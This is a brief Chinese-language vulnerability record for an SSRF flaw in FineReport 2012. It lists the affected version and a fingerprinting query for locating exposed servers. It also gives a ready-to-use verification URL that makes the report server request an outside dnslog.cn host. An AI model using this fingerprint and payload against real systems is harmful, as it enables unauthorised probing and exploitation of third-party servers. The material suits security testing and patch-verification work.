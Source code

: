 # 帆软报表 2012 SSRF漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取造成SSRF

## 漏洞影响

```
帆软报表 2012
```

## 网络测绘

```
body="down.download?FM_SYS_ID"
```

## 漏洞复现

漏洞验证Url为

```plain
/ReportServer?op=resource&resource=0m0m6k.dnslog.cn
```

![image-20220209113126929](./images/202202091131035.png)

